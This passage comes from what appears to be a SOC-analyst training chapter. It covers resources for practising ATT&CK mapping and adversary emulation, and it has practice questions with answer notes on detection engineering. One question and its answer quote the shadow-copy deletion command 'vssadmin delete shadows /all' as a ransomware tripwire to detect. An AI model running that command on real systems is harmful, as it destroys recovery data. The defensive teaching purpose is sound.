- **TryHackMe — *MITRE*, *Cyber Kill Chain*, *Diamond Model*, *Pyramid of Pain*, *Unified Kill Chain* rooms** — hands-on with every framework in this chapter.
- **TryHackMe — *Threat Intelligence Tools* and *MITRE ATT&CK* modules** — practice mapping reports and pivoting on intel with the Diamond Model.
- **Atomic Red Team** (atomicredteam.io) — run T1059.001, T1053.005, T1021.002 in an isolated lab and confirm your detections fire (the Part 9 Step 5 exercise).
- **MITRE Caldera** — automated adversary emulation to chain techniques and test end-to-end coverage.
- **VECTR (by SRA)** — free tool to plan, run, and track purple-team exercises against ATT&CK, recording detection results over time so your heatmap reflects tested reality.
- **MITRE ATT&CK Defender (MAD)** free training — structured courses on ATT&CK fundamentals and mapping.
- **"ATT&CK for Dummies" (free MITRE e-book)** — a gentle, well-structured primer to reinforce the hierarchy and use cases from this chapter.
- **Red Canary Atomic Red Team docs** — per-technique guidance pairing each atomic test with what the resulting telemetry should look like.
- **Center for Threat-Informed Defense** resources — Adversary Emulation Library plans mapped to real groups.
- **CTI reports (mapped to ATT&CK)** — read a vendor APT report and re-map its narrative to technique IDs yourself; compare to the report's own mapping.
- **MITRE CAR (Cyber Analytics Repository)** — browse ready-made analytics for techniques you want to detect; adapt one to your SIEM in Chapter 4.
- **MITRE D3FEND** — for two techniques you now detect, look up the corresponding defensive countermeasures and note which you have deployed.
- **Sigma HQ rule repository (github.com/SigmaHQ/sigma)** — read real detection rules tagged with ATT&CK IDs; you will convert some to SPL/KQL later.
- **DetectionLab + Atomic Red Team + Navigator** — the full loop: emulate a technique, watch the alert, color the heatmap. Do this for the Part 9d emulation plan end to end.
- **The DFIR Report (thedfirreport.com)** — detailed real-intrusion write-ups already mapped to ATT&CK; superb for the Part 12b mapping drill at scale.
- **MITRE ATT&CK Evaluations** — public results of how detection products fared against emulated real actors; a masterclass in what "detection" really means in practice.
- **Unit42 / Mandiant / CrowdStrike threat reports** — current adversary TTP write-ups to keep your threat-informed priorities up to date.

### Capstone exercise

Tie the chapter together in one sitting: pick a single disclosed intrusion write-up (e.g., from The DFIR Report), and (1) reconstruct its timeline, (2) map every action to ATT&CK tactics and techniques, (3) build a Navigator layer of those techniques, (4) honestly mark which your own lab (from Chapter 1's Part 13f) would detect, (5) write detection pseudo-logic for the three highest-value gaps, and (6) emulate at least one with Atomic Red Team and confirm the alert fires. Completing this once will teach you more than rereading the chapter twice — it is the exact workflow of a working detection engineer, compressed into an afternoon.

### Self-check

You should now be able to, without notes: name the seven Kill Chain phases and the four Diamond vertices; recite the 14 ATT&CK tactics in rough order; explain the tactic/technique/sub-technique/procedure hierarchy; describe how a heatmap is built and how "no data" differs from "no rule"; explain why technique-level detection beats indicator detection via the Pyramid of Pain; and describe risk-based alerting. If any is shaky, revisit that Part before Chapter 4, where these techniques become live searches.

One last framing before we go hands-on. The last three chapters have been conceptual by necessity — you cannot write good detections without knowing the SOC, the data, and the techniques. But concepts are not detections. Starting now, every idea you have built gets cashed out in a real tool: the tactics and techniques from this chapter become SPL searches in Chapter 4, KQL analytics in Chapter 5, and Elastic/Sigma rules in Chapter 6, all reading the data sources from Chapter 2, all feeding the triage workflow from Chapter 1. The scaffolding is complete; the building starts.

In the next chapter we put a real tool under our hands for the first time: **Splunk and its search language SPL**, where the techniques mapped here become actual searches that fire actual alerts against actual data. You will teach Splunk to itself recognize the winword→powershell chain, the Kerberoasting burst, and the cleared-log tripwire — turning this chapter's paper heatmap into live coverage.

### Interview rapid-fire (common SOC-analyst questions)

- What are the phases of the Cyber Kill Chain? → Recon, Weaponization, Delivery, Exploitation, Installation, C2, Actions on Objectives.
- Kill Chain vs ATT&CK? → Kill Chain = linear arc for communication; ATT&CK = detailed matrix for mapping/coverage/detection.
- What is a tactic vs a technique? → Tactic = the goal (why); technique = the method (how).
- Why is behavioral detection better than IOC detection? → Pyramid of Pain: TTPs are costly to change, hashes/IPs are trivial.
- What is an ATT&CK heatmap and how do you use it? → Coverage map of detections over the matrix; drives a prioritized backlog.
- How do you validate detection coverage? → Emulate techniques (Atomic Red Team/Caldera), confirm alerts fire — never assume.
- What is the Diamond Model? → Adversary/Capability/Infrastructure/Victim; used to pivot across intel.
- What does "threat-informed defense" mean? → Prioritize detecting the techniques your likely adversaries actually use.

### Practice questions

1. Map this sentence to ATT&CK tactics and techniques: "The attacker phished an employee, ran a macro that launched encoded PowerShell, dumped credentials from LSASS, and used PsExec to move to a file server." Give the tactic and a technique ID for each step.
2. A red cell on your heatmap reads "T1558.003 Kerberoasting — data: yes, detection: no." Explain what this means, why it is a *cheap* gap to close, and roughly what the detection would look for.
3. Explain, using the Pyramid of Pain, why the detection "Office application spawns a script interpreter" is more valuable than blocklisting the C2 IP from the Part 9 lab.
4. Your team claims 90% ATT&CK coverage but was breached by a technique they said was "green." Give two reasons a green cell can still fail, and how emulation would have caught it.
5. When would you brief an incident using the Kill Chain versus mapping it in ATT&CK? Give a concrete situation for each and why that framework fits better.
6. You have three individually-"medium" alerts on one host within 15 minutes: Execution, C2, and Lateral Movement. Explain why they should be treated as one high-severity incident and what SIEM feature implements this.
7. A heatmap cell for T1003.001 (LSASS dumping) is red because of "no data." Using the Chapter 2/Part 9h mapping, which source do you onboard, and what would the detection then look for?

### Answer notes

1. Phishing → **T1566.001 (Initial Access)**; macro → **T1204.002 (Execution)**; encoded PowerShell → **T1059.001 (Execution)**; LSASS dump → **T1003.001 (Credential Access)**; PsExec → **T1021.002 (Lateral Movement)**. Bonus: the encoding itself is **T1027 (Defense Evasion)**.
2. It means you *collect the data* (4769) but have *no rule* written — a cheap gap because no new telemetry is needed. The detection looks for a burst of 4769 service-ticket requests with RC4 (0x17) encryption from a single account for many distinct SPNs in a short window.
3. IPs are trivial to rotate (bottom of the pyramid), so the blocklist is stale within a day; "Office spawns a script interpreter" targets the *behavior*, catching every phishing loader regardless of document, domain, or payload — the attacker must change *how they operate* to evade it.
4. A green cell fails if the rule was silently broken (a field rename, a disabled rule, a parsing change) or if it only covers one procedure of the technique while the attacker used another. Emulation (Atomic Red Team) would run the technique and reveal that no alert fired, downgrading the cell to red before a real adversary exploited it.
5. Use the **Kill Chain** for an executive briefing about the arc ("we broke the chain at C2 before objectives") — it is intuitive and non-technical. Use **ATT&CK** for the detection-engineering review and intel sharing — precise technique IDs drive coverage and are the industry's shared language.
6. Same host + same user + Execution → C2 → Lateral Movement in a tight window is an intrusion arc; the combination is far stronger evidence than any single alert, and treating them as one incident also cuts alert fatigue. **Risk-based alerting** (Splunk RBA, Sentinel Fusion, Elastic correlation) implements it by accumulating per-entity risk scores and firing once a threshold or multi-tactic condition is met.
7. Onboard **Sysmon (Event ID 10, ProcessAccess)** or ensure EDR captures LSASS handle access. The detection then looks for `lsass.exe` being opened with memory-read access rights by a process that is not a known security/AV/EDR tool.
8. Map: "The attacker used `vssadmin delete shadows /all` and then encrypted files with a `.locked` extension." Which two techniques, in which order, and why does the order matter for detection?
9. You read a new threat report on a campaign hitting your industry. In two sentences, describe the operational workflow from report to updated detections, including the step analysts most often skip.

### Answer notes (continued)

8. **T1490 (Inhibit System Recovery)** — deleting shadow copies — precedes **T1486 (Data Encrypted for Impact)**. The order matters because T1490 is an earlier, high-signal tripwire: catching `vssadmin delete shadows` gives you a chance to isolate the host *before* encryption starts, whereas detecting the encryption itself is often too late. Detect the precursor.
9. Read and map the report to ATT&CK IDs, overlay against your heatmap to find gaps, triage gaps by fix cost, write and emulate detections for the cheap high-value ones, and — the commonly skipped step — **retro-hunt** the report's behaviors and IOCs across historical logs in case the campaign already touched you before you had coverage.
